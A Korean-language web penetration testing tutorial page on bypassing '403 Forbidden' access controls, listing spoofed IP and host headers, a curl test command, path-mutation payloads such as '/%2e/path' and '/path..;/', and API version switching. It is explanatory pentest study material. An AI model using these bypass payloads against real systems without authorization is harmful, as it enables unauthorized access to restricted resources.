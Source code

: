 ```yaml
---
title: 403 Bypass
layout: default
parent: Web Penetration Test
nav_order: 2.7
description: "Web hacking"
---
```



# Bypass 403 Forbidden

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}

"403 Forbidden"은 웹 서버가 요청을 거부했을 때 발생하는 HTTP 상태 코드 중 하나 입니다. 403 오류 메세지는 사용자가 요청한 리소스에 접근할 권한이 없다는 뜻을 의미 합니다. 보통 서버측에서 권한 설정을 잘못 했거나, 요청한 페이지나, 특정 파일이 특정 사용자에게만 허용되었을때 발생할 수 있습니다.

## Reasons of 403 Forbidden

403 Forbidden이 발생하는 일반적인 이유는 다음과 같습니다.

1. Not Enough Privileges (권한 부족): 서버가 해당 리소스에 대한 접근을 제한하거나, 로그인한 사용자가 접근할 수 없는 리소스를 요청했을 때 발생할 수 있습니다.

2. IP 차단: 특정 IP나 지역에서의 접근을 차단했을 때도 발생할수 있습니다.

3. WAF (Web Application Firewall)로 인한 차단: 웹 서버에 대한 다양한 공격들을 감지하면 WAF에서 403 Forbidden 응답을 반환할 수 있습니다. 

4. 봇 탐지 및 차단: 봇이 서버에 불법적으로 접근하거나 스팸, 크롤링, 디도스 등 악의적인 행동을 하게되면 403 Forbidden 오류가 발생할 수 있습니다.

5. CORS (Cross-Origin Resource Sharing): 보안상의 이유로, 웹 브라우저에서 다른 도메인에서 온 리소스에 대한 접근 제한을 할수 있습니다. 

6. 디렉토리 리스팅 차단: 디렉토리 리스팅을 허용하면 공격자가 서버의 파일 구조를 탐색할 수 있습니다. 이것을 방지하기 위해 디렉토리 리스팅 차단하는 설정을 할 수 있습니다.

7. HTTP 요청 헤더 분석: 비정상적인 HTTP 요청 헤더가 올 경우, 차단하는 경우가 있을 수 있습니다.


## 403 Bypass 방법 

### Bypassing IP and Host restriction

HTTP 헤더는 여러가지 커스텀 헤더들이 존재합니다. 다양한 WAF나 웹 어플리케이션이 커스텀 헤더들을 받는 경우도 많고 않쓰이는 헤더들을 필터링을 못하는 경우도 많습니다. 

여러 IP나 Host를 커스텀해더로 바꿀 수 있습니다.

```js
    X-Custom-IP-Authorization: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Forwarded-Host: localhost
    X-Forwarded-By: 127.0.0.1
    X-Forwarded-Port: 80
    X-Forward-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    X-True-IP: 127.0.0.1
    Redirect: http://localhost
    Referer: http://localhost
    Host: localhost
```

Curl로도 해당 여러 취약점을 테스트 해볼 수 있습니다.

```js
curl -i -k -H "X-Forwarded: 127.0.0.1" https://example.com
```

### Bypassing path-base blocking

URI Path 기반으로 403 Forbidden이 발생하는 경우, 아래와 같은 리스트를 활용해 해당 URL을 나타내지만 정규식에 걸리지 않도록 경로를 우회하는 로직을 사용할 수 있습니다.

```
    localhost/path
    localhost/%2e/path
    /path%20
    /path%09
    /path%00
    /%90/path
    /%2e/path
    /path/
    /path/.
    //path//
    /./path
    /;/path
    /.;path
    //;//path
    /path..;/
    /path/..;/
    /path.json
    /path.css
    /path.html
    /path?
    /path??
    /path???
    /path?testparam
    /path#
    /path#test
```

### Changing API Version
 
API를 테스트 하는경우, 여러 API 버전들을 바꿔가면서 테스트를 해볼수 있습니다.

```
/v1/secret
/v2/secret
```

### Changing URL Protocol

때로는 https에서만 Access Control을 하는 경우가 있습니다.

